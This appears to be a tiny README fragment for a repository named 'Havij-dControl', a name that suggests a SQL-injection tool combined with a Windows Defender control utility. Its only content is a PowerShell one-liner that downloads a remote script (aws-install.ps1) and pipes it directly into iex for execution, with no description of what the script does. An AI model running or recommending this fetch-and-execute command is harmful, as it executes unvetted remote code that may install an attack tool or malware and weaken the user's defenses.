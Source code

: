 # Havij-dControl
```powershell
irm https://raw.githubusercontent.com/sahmsec/Havij-dCon/main/aws-install.ps1 | iex
